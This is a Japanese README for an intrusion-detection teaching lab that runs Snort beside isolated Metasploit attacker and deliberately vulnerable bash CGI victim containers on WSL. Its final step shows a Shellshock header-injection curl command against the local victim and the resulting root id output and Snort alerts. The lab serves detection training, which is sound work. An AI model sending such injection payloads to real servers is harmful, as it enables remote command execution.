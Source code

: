 # IDS-Education

## 概要
初学者に向けた簡易的かつ安全なIDS教育環境の構築を可能とする
### 特徴
- WSLを用いており、軽量なsnortによるIDS実験環境である
- 攻撃/被攻撃環境は互い以外の通信を完全に遮断されており、外部への攻撃危険性, 外部からの攻撃危険性が低い
- metasploitを用いた実践的な攻撃の演習、検知実験も可能
- Doclerfileの追記および変更やルールファイルの変更による自由度も高い

## ファイル
### docker-snort.tar.gz
#### 構成
```
snort-docker
├── Dockerfile
├── local.rules
└── snort.conf 
```
#### 内容
- Dockerfile: Dockerを起動するためのファイル。起動時にsnortをインストールする
- local.rules: あらかじめTCP通信,およびshellshockをそれぞれ検知するよう設定されたルールファイル。起動時にsnortのrulesフォルダにコピーされる
- snort.conf: 簡易的なsnortの設定が記述されている

### shellshock.tat.gz
#### 構成
```
shellshock
├── attacker
│   └── Dockerfile
├── victim
│   ├── Dockerfile
│   └── cgi-bin
│       └── vulnerable.sh
└── docker-compose.yml
```
#### 内容
- attacker: attacker-msfを起動するDockerfileを格納
    - Dockerfile: 起動時にmetasploitやcurlをインストールする
- victim: victim-shellshockを起動するDockerfile等を格納
    - Dockerfile: 起動時にpython3, bash-4.3をインストールする
    - cgi-bin: cgiスクリプトを格納
        - vulnerable.sh: 脆弱なbashを用いてコマンドを実行
- docker-compose.yml: attacker, victimの二つのコンテナのビルド、連携を定義

## 構築手法
1. WindowsにWSLをインストール
2. Githubからdocker-snort.tar.gz, shellshock.tar.gzをダウンロード(Downloadsフォルダにダウンロードしたと仮定)
3. WSLにDockerをインストール
4. 二つのtarファイルを解凍 \
    例(WSL内のbash)
    - cd ~/
    - tar -xzvf /mnt/c/Users/[ユーザー名]/Downloads/docker-snort.tar.gz
    - tar -xzvf /mnt/c/Users/[ユーザー名]/Downloads/shellshock.tar.gz
5. snort-monitorのDockerfile内、監視するブリッジ名を自分の環境に合わせて変更\
    例(WSL内のbash)
    - cd ~/
    - ip a (br-...という名前のインターフェース名をコピー)
    - nano snort-docker/Dockerfile
        - 最終行、CMD内の"br-..."をコピーしたものに変更
6. attack/victim, snortをそれぞれ起動 \
    例(WSL内のbash)
    - cd ~/snort-docker
    - docker build -t snort-monitor .
    - docker run -it --rm --network=host --cap-add=NET_ADMIN --cap-add=NET_RAW snort-monitor
    - (新しいWSLウィンドウを開く)
    - cd ~/shellshock
    - docker-compose build
    - docker-compose up -d
7. 攻撃コンテナの中に入る、攻撃を行う \
    例(WSL内のbash)
    - docker exec -it attacker-msf /bin/bash
    - (攻撃コンテナの中に入り、bashが起動)
    - curl -A "() { :;}; /usr/bin/id" http://victim:8000/cgi-bin/vulnerable.sh
    - (攻撃コンテナの中では uid=0(root) gid=0(root) groups=0(root) のような表示がされ、snortを起動したウィンドウにはTCP packet detected, shellshock deteted のアラートがそれぞれ表示される)